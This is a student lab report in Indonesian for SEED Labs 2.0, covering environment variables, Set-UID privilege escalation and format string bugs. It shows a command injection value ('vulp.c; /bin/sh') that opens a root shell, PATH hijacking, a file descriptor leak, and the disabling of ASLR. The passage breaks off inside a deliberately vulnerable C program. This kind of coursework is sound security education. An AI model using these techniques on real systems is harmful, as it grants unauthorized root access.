# R1 — Software Security Attack

> **SEED Labs 2.0 · Ubuntu 20.04**
> Muhammad Tamim Nugraha — 5024231060 · Teknik Komputer ITS 2023

---

## Daftar Isi

1. [Environment Variable & Set-UID Lab](#1-environment-variable--set-uid-lab)
2. [Set-UID Privilege Escalation](#2-set-uid-privilege-escalation)
3. [Format String Vulnerability](#3-format-string-vulnerability)
4. [Kesimpulan](#kesimpulan)
5. [Referensi](#referensi)

---

## 1. Environment Variable & Set-UID Lab

### 1.1 Tujuan Eksperimen

Memahami bagaimana *environment variables* bekerja di Linux, bagaimana variabel diwariskan ke proses anak, dan bagaimana mekanisme Set-UID berinteraksi dengan environment variables. Eksperimen ini mencakup manipulasi `PATH`, `LD_PRELOAD`, dan `LD_LIBRARY_PATH` serta dampaknya pada keamanan program Set-UID.

### 1.2 Dasar Teori

Environment variables adalah pasangan key-value yang diwariskan dari proses induk ke proses anak. Beberapa variabel kritis:

| Variabel | Fungsi | Risiko |
|---|---|---|
| `PATH` | Lokasi pencarian executable | Mengarahkan ke program malicious |
| `LD_PRELOAD` | Library yang di-load sebelum semua library lain | Mengganti fungsi library standar |
| `LD_LIBRARY_PATH` | Path pencarian shared library | Memuat library berbahaya |
| `IFS` | Internal Field Separator | Mengubah parsing perintah shell |

### 1.3 Langkah Eksploitasi

#### Task 1: Manipulasi Environment Variables (export, printenv, unset)

Pada task pertama, kita mempelajari operasi dasar terhadap environment variables menggunakan perintah `export`, `printenv`, dan `unset`:

```bash
# Set environment variable baru
export nama="Tamim Nugraha"

# Cetak nilai variabel
printenv nama
# Output: Tamim Nugraha

# Hapus variabel
unset nama

# Verifikasi — variabel sudah tidak ada
printenv nama
# (tidak ada output)

# Cetak variabel bawaan sistem
printenv PWD
# Output: /home/seed/Tugas_R1
```

**Bukti Eksperimen Task 1:**



> **Analisis:** Screenshot menunjukkan bahwa variabel `nama` berhasil di-set dengan `export`, ditampilkan dengan `printenv`, dihapus dengan `unset` (printenv tidak menampilkan output), dan `printenv PWD` menampilkan working directory saat ini.

---

#### Task 2: Pewarisan Environment Variables pada Child Process (`fork()`)

Pada task ini, kita mengompilasi program `myprintenv.c` dua kali — versi pertama mencetak env dari child process, versi kedua mencetak env dari parent process — lalu membandingkan hasilnya dengan `diff`:

```bash
# Edit myprintenv.c — versi child process (printenv di child)
nano myprintenv.c
gcc myprintenv.c -o myprintenv
./myprintenv > file1

# Edit myprintenv.c — versi parent process (printenv di parent)
nano myprintenv.c
gcc myprintenv.c -o myprintenv
./myprintenv > file2

# Bandingkan environment antara parent dan child
diff file1 file2
# Tidak ada output → environment variables IDENTIK
```

**Bukti Eksperimen Task 2:**



> **Analisis:** Perintah `diff file1 file2` tidak menghasilkan output apapun, yang berarti environment variables pada child process **identik** dengan parent process. Ini membuktikan bahwa `fork()` mewariskan seluruh environment variables secara utuh dari parent ke child.

---

#### Task 3: Pewarisan Environment Variables pada `execve()`

Pada task ini, kita menguji bagaimana `execve()` menangani environment variables tergantung pada parameter ketiga (envp):

**Test A: `execve()` dengan `NULL` sebagai environment**

```c
// myenv.c — execve dengan NULL (tanpa environment)
#include <unistd.h>

extern char **environ;

int main()
{
    char *argv[2];
    argv[0] = "/usr/bin/env";
    argv[1] = NULL;

    execve("/usr/bin/env", argv, NULL);  // NULL = tanpa env
    return 0;
}
```

```bash
nano myenv.c
gcc myenv.c -o myenv
./myenv
# Output: KOSONG — tidak ada environment variables
```

**Bukti Eksperimen Task 3 (NULL):**



> **Analisis:** Ketika parameter ketiga `execve()` diisi `NULL`, environment pertama menunjukkan output kosong karena tidak ada variabel yang diteruskan.

**Test B: `execve()` dengan `environ` sebagai environment**

```c
// myenv.c — execve dengan environ (mewariskan semua env)
#include <unistd.h>

extern char **environ;

int main()
{
    char *argv[2];
    argv[0] = "/usr/bin/env";
    argv[1] = NULL;

    execve("/usr/bin/env", argv, environ);  // environ = semua env
    return 0;
}
```

```bash
nano myenv.c
gcc myenv.c -o myenv
./myenv
# Output: Seluruh environment variables ditampilkan
```

**Bukti Eksperimen Task 3 (environ):**



> **Analisis:** Saat parameter ketiga diganti dengan `environ`, seluruh environment variables berhasil diwariskan ke program baru. Terlihat variabel `NAMA=` (kosong) karena sebelumnya sudah di-unset. Ini membuktikan bahwa `execve()` memberikan kontrol penuh atas environment yang diteruskan.

---

#### Task 4: Pewarisan Environment pada `system()`

Pada task ini, kita menguji bagaimana `system()` mewariskan environment variables:

```c
// mysystem.c — system() memanggil /bin/sh -c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    system("/usr/bin/env");
    return 0;
}
```

```bash
nano mysystem.c
gcc mysystem.c -o mysystem
./mysystem
# Output: Seluruh environment variables ditampilkan
```

**Bukti Eksperimen Task 4:**



> **Analisis:** Fungsi `system()` secara internal memanggil `execl("/bin/sh", "sh", "-c", command, NULL)` yang mewarisi seluruh environment dari proses pemanggil. Terlihat variabel `NAMA=` masih ada, `PATH` lengkap, dan semua variabel sistem tersedia. Ini berbeda dengan `execve(NULL)` yang tidak mewariskan env sama sekali.

---

#### Task 5 & 6: Environment Variables pada Program Set-UID

Pada task ini, kita menguji apakah environment variables (termasuk yang dimanipulasi attacker) diteruskan ke program Set-UID:

```bash
# Kompilasi task5 (program yang mencetak env)
nano task5.c
gcc task5.c -o task5

# Jalankan sebagai program biasa — simpan output
./task5 > file_biasa

# Jadikan Set-UID root
sudo chown root task5
sudo chmod 4755 task5

# Set variabel berbahaya
export MY_VAR="variable tamim"
export PATH=$PATH:/folder_palsu
export LD_LIBRARY_PATH=/lib_palsu

# Jalankan sebagai Set-UID — simpan output
./task5 > file_setuid

# Bandingkan environment
diff file_biasa file_setuid
```

**Bukti Eksperimen Task 5 & 6:**



> **Analisis:** Output `diff` menunjukkan bahwa program Set-UID mendapatkan **lebih banyak** variabel dibanding program biasa (termasuk session variables). Namun, perhatikan bahwa `NAMA=` dan variabel custom tetap diteruskan.

**Verifikasi Filtering LD_LIBRARY_PATH:**

```bash
# Cek apakah MY_VAR dan LD_LIBRARY_PATH masih ada di output Set-UID
grep "MY_VAR" file_setuid
# Output: MY_VAR=variable tamim    ← DITERUSKAN

grep "LD_LIBRARY_PATH" file_setuid
# Output: (KOSONG)                 ← DIFILTER oleh dynamic linker!
```

**Bukti Eksperimen — Grep Verification:**



> **Analisis:** Hasil `grep` membuktikan bahwa `MY_VAR=variable tamim` **berhasil diteruskan** ke program Set-UID, namun `LD_LIBRARY_PATH` **difilter/dihapus** oleh Linux dynamic linker (`ld-linux.so`). Ini adalah mekanisme keamanan bawaan kernel Linux yang mencegah library injection pada program privileged.

---

#### Task 7: Serangan `LD_PRELOAD` pada Program Set-UID

**Test A: LD_PRELOAD pada program biasa (non-SUID)**

```bash
# Buat library override untuk sleep()
# lalu compile program myprog yang memanggil sleep()
./myprog
# Output: "I am not sleeping!" — LD_PRELOAD BERHASIL override sleep()
```

**Bukti Eksperimen Task 7A (Non-SUID):**



> **Analisis:** Pada program non-SUID, `LD_PRELOAD` berhasil mengganti fungsi `sleep()` asli dengan versi palsu yang mencetak "I am not sleeping!" — membuktikan bahwa library injection bekerja sempurna pada program biasa.

**Test B: LD_PRELOAD pada program Set-UID**

```bash
# Jadikan myprog sebagai Set-UID root
sudo chown root myprog
sudo chmod 4755 myprog

# Jalankan — LD_PRELOAD DIABAIKAN
./myprog
# Output: (program berjalan normal, sleep asli dipanggil)
```

**Bukti Eksperimen Task 7B (Set-UID):**



> **Analisis:** Setelah `myprog` dijadikan Set-UID root (`chown root` + `chmod 4755`), `LD_PRELOAD` tidak lagi bekerja. Program menjalankan `sleep()` asli. Ini membuktikan bahwa **Linux dynamic linker secara otomatis mengabaikan `LD_PRELOAD` ketika real UID ≠ effective UID** (proteksi Set-UID).

---

## 2. Set-UID Privilege Escalation

### 2.1 Tujuan Eksperimen

Memahami mekanisme Set-UID pada sistem UNIX/Linux dan bagaimana program yang berjalan dengan hak akses root dapat dieksploitasi apabila tidak dirancang dengan aman. Eksperimen ini mendemonstrasikan beberapa vektor serangan: PATH manipulation, command injection via `system()`, perbandingan keamanan `system()` vs `execve()`, dan file descriptor leaking.

### 2.2 Dasar Teori

Set-UID (Set User ID) adalah mekanisme keamanan UNIX yang memungkinkan pengguna menjalankan program tertentu dengan hak akses pemilik file (biasanya root), bukan hak akses pengguna yang menjalankannya. Bit Set-UID ditandai dengan `s` pada permission field:

```
-rwsr-xr-x 1 root root 12345 Jan 1 00:00 program
```

Mekanisme ini diperlukan untuk utilitas seperti `passwd`, `ping`, dan `mount` yang memerlukan akses privileged. Namun, jika program Set-UID memiliki kerentanan, penyerang dapat mengeksploitasinya untuk mendapatkan root access.

### 2.3 Langkah Eksploitasi

#### Task 8A: PATH Manipulation — Percobaan Pertama (dash protection)

```bash
# Buat program Set-UID yang memanggil system("ls")
nano vulp.c
gcc vulp.c -o vulp
sudo chown root vulp
sudo chmod 4755 vulp

# Buat program palsu "ls" yang menjalankan shell
nano ls.c
gcc ls.c -o ls

# Manipulasi PATH agar direktori saat ini dicari duluan
export PATH=$PWD:$PATH

# Jalankan vulp — memanggil "ls" palsu kita
./vulp
# Shell terbuka, TAPI...
$ id
# uid=1000(seed) gid=1000(seed) groups=...
# BUKAN ROOT! — dash melindungi dari privilege escalation
```

**Bukti Eksperimen Task 8A (dash protection):**



> **Analisis:** Program vulp berhasil memanggil `ls` palsu yang menjalankan shell. Namun, `id` menunjukkan `uid=1000(seed)` tanpa `euid=0(root)`. Ini karena shell `/bin/dash` di Ubuntu 20.04 memiliki proteksi: ketika mendeteksi `real UID ≠ effective UID`, dash secara otomatis **menurunkan privilege** dengan memanggil `setuid(getuid())`.

#### Task 8B: PATH Manipulation — Bypass dengan `/bin/zsh`

```bash
# Ganti default shell ke zsh yang tidak memiliki proteksi dash
# atau link /bin/sh ke /bin/zsh
export PATH=$PWD:$PATH
./vulp
# id
# uid=1000(seed) gid=1000(seed) euid=0(root) groups=...
# ROOT ESCALATION BERHASIL!
```

**Bukti Eksperimen Task 8B (root escalation berhasil):**



> **Analisis:** Setelah mengganti shell, `id` menunjukkan **`euid=0(root)`** — privilege escalation berhasil! Ini membuktikan bahwa serangan PATH manipulation sangat berbahaya ketika program Set-UID menggunakan `system()` dengan relative path. Proteksi dash hanyalah mitigasi tambahan, bukan solusi fundamental.

---

#### Task 9: Command Injection via `system()` — Root Shell

```bash
# Buat program cat_system.c yang menggunakan system() untuk cat file
nano cat_system.c
gcc cat_system.c -o cat_system
sudo chown root cat_system
sudo chmod 4755 cat_system

# Inject perintah shell melalui nama file
./cat_system "vulp.c; /bin/sh"
# Program menampilkan isi vulp.c, LALU menjalankan /bin/sh
# Dalam shell:
# id
# uid=1000(seed) gid=1000(seed) euid=0(root) groups=...
# ROOT SHELL!
```

**Bukti Eksperimen Task 9 (system() command injection):**



> **Analisis:** Program `cat_system` menggunakan `system()` untuk menjalankan `cat <filename>`. Dengan menyuntikkan `"vulp.c; /bin/sh"` sebagai input, semicolon memisahkan perintah — `cat vulp.c` diakeksekusi terlebih dahulu (menampilkan source code), lalu `/bin/sh` dijalankan dengan `euid=0(root)`. Ini membuktikan bahaya **command injection** pada program Set-UID yang menggunakan `system()`.

---

#### Task 10: Perbandingan `execve()` — Injection Gagal

```bash
# Buat program cat_execve.c yang menggunakan execve() (bukan system())
nano cat_execve.c
gcc cat_execve.c -o cat_execve
sudo chown root cat_execve
sudo chmod 4755 cat_execve

# Coba inject dengan cara yang sama
./cat_execve "vulp.c; /bin/sh"
# Output: /bin/cat 'vulp.c; /bin/sh': No such file or directory
# INJECTION GAGAL!
```

**Bukti Eksperimen Task 10 (execve() safe):**



> **Analisis:** Berbeda dengan `system()`, `execve()` **tidak memanggil shell interpreter**. Seluruh string `"vulp.c; /bin/sh"` diperlakukan sebagai **satu nama file** (bukan dua perintah terpisah). Hasilnya: `/bin/cat` mencari file bernama `vulp.c; /bin/sh` yang tentu saja tidak ada. Ini membuktikan bahwa **`execve()` jauh lebih aman** dari `system()` untuk program Set-UID.

---

#### Task 11: File Descriptor Leak pada Program Set-UID

```bash
# Program leak membuka file /etc/zzz dengan hak akses root
# tapi tidak menutup file descriptor sebelum exec ke shell
./leak
# Output: File /etc/zzz terbuka di File Descriptor (fd): 3
#   echo "hi" >&3
# $ exit

# Verifikasi — file berhasil ditulis!
cat /etc/zzz
# Output: SAYA BERHASIL MEMBOBOL FILE INI, LUdcdvjkrs !
# hi
```

**Bukti Eksperimen Task 11 (File Descriptor Leak):**



> **Analisis:** Program `leak` (Set-UID root) membuka file `/etc/zzz` dengan fd=3, lalu menjalankan shell tanpa menutup file descriptor tersebut. Dalam shell, perintah `echo "hi" >&3` menulis ke fd 3 yang masih terbuka — berhasil menulis ke file milik root! Ini membuktikan bahaya **file descriptor leaking**: program Set-UID harus menutup semua file descriptor sensitif sebelum `exec()`.

---

### 2.4 Analisis Percobaan

**Ringkasan Hasil Eksploitasi:**

| Task | Serangan | Hasil | Alasan |
|---|---|---|---|
| 8A | PATH Manipulation (dash) | ❌ Gagal root | `/bin/dash` menurunkan privilege otomatis |
| 8B | PATH Manipulation (zsh) | ✅ **euid=0(root)** | Tidak ada proteksi di `/bin/zsh` |
| 9 | Command Injection `system()` | ✅ **Root shell** | `system()` memanggil shell, semicolon diinterpretasi |
| 10 | Command Injection `execve()` | ❌ Gagal | `execve()` tidak menggunakan shell |
| 11 | File Descriptor Leak | ✅ **Write ke file root** | fd tidak ditutup sebelum exec |

**Countermeasure yang efektif:**
- **Gunakan `execve()` daripada `system()`**: Menghindari shell interpreter mengurangi kemungkinan command injection.
- **Absolute path**: Selalu gunakan `/bin/ls` bukan `ls` pada program Set-UID.
- **Privilege dropping**: Panggil `seteuid(getuid())` sebelum operasi non-privileged.
- **Close-on-exec**: Gunakan flag `O_CLOEXEC` saat membuka file sensitif.
- **Input validation**: Validasi dan sanitasi semua input pengguna.

---

## 3. Format String Vulnerability

### 3.1 Tujuan Eksperimen

Memahami kerentanan *format string* pada program C yang menggunakan fungsi `printf()` (dan keluarganya) secara tidak aman. Mendemonstrasikan cara membaca memori stack, menulis ke alamat memori arbitrary, dan mengeksekusi kode berbahaya melalui format string attack.

### 3.2 Dasar Teori

Format string vulnerability terjadi ketika input pengguna digunakan langsung sebagai *format string* pada fungsi keluarga `printf()`:

```c
/* RENTAN */
printf(user_input);       /* Input diinterpretasikan sebagai format string */

/* AMAN */
printf("%s", user_input); /* Input diperlakukan sebagai data biasa */
```

**Format specifier yang dieksploitasi:**

| Specifier | Fungsi | Penggunaan Serangan |
|---|---|---|
| `%x` | Cetak hex dari stack | Membaca isi stack (information leak) |
| `%s` | Cetak string dari pointer | Membaca memori arbitrary |
| `%n` | **Tulis** jumlah karakter ke alamat | **Menulis ke memori arbitrary** |
| `%p` | Cetak pointer address | Mengungkap alamat memori |
| `%08x` | Hex padded 8 karakter | Navigate stack secara presisi |

### 3.3 Langkah Eksploitasi

#### Persiapan Lingkungan

```bash
# Nonaktifkan ASLR
sudo sysctl -w kernel.randomize_va_space=0

# Nonaktifkan StackGuard (canary) saat kompilasi
# Flag: -fno-stack-protector
# Nonaktifkan NX/DEP: -z execstack
```

#### Task 1: Program Rentan

```c
/* fmt_vuln.c — Program dengan format string vulnerability */
#include <stdio.h>
#include <string.h>

/* Target variable yang akan kita ubah nilainya */
int secret = 0x44;
char msg[100] = "Pesan asli rahasia";

void vuln_func(char *input)
{
    char buf[256];
    snprintf(buf, sizeof(buf), input);    /* RENTAN! */
    printf("Output: %s\n", buf);
    printf("[DEBUG] secret = 0x%x (%d)\n", secret, secret);
